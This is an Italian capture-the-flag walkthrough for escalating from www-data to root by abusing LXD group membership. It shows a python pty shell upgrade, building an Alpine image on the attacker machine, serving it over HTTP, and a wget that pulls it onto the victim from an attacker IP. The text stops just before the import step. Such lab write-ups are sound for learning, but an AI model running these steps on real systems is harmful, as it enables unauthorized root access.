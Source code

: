 ```
www-data
```
Questo utente appartiene a un gruppo diverso dal tuo. Di che gruppo si tratta?
```
lxd
```
Genera una shell tty.

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Per questa domanda dovresti fare una ricerca di base sul funzionamento dei container Linux (LXD). Esiste un piccolo tutorial online. Cerca su Google "LXD, provalo online".  

```
https://www.hackingarticles.in/lxd-privilege-escalation/
```

```
https://github.com/canonical/lxd
```

Cerca come aumentare i privilegi utilizzando le autorizzazioni LXD e controlla se ci sono immagini disponibili sulla casella.  

Per aumentare i privilegi di root della macchina host è necessario creare un'immagine per lxd, quindi è necessario eseguire la seguente azione:
##### **Passaggi da eseguire sulla macchina dell'attaccante** :
- Scarica build-alpine sul tuo computer locale tramite il repository git.
- Eseguire lo script “build -alpine” che creerà l’ultima immagine Alpine come file compresso; questo passaggio deve essere eseguito dall’utente root.
- Trasferisci il file tar sulla macchina host
##### **Passaggi da eseguire sulla macchina host:**
- Scarica l'immagine alpina
- Importa immagine per lxd
- Inizializza l'immagine all'interno di un nuovo contenitore.
- Montare il contenitore all'interno della directory /root

Abbiamo quindi scaricato la build alpine utilizzando il repository GitHub.
```
git clone https://github.com/saghul/lxd-alpine-builder.git
```
```
cd lxd-alpine-builder
```
```
./build-alpine
```

```
ls
```
```
alpine-v3.13-x86_64-20210218_0139.tar.gz  build-alpine  LICENSE  README.md  rootfs
```
Eseguendo il comando sopra riportato, viene creato un file tar.gz nella directory di lavoro che trasferiremo sulla macchina vittima
```
python3 -m http.server 8080
```
sulla macchina vittima
```
cd /tmp
```
```
wget http://10.14.99.134:8080/alpine-v3.13-x86_64-20210218_0139.tar.gz
```
Dopo aver creato l'immagine, è possibile aggiungerla come immagine a LXD come segue:
```
```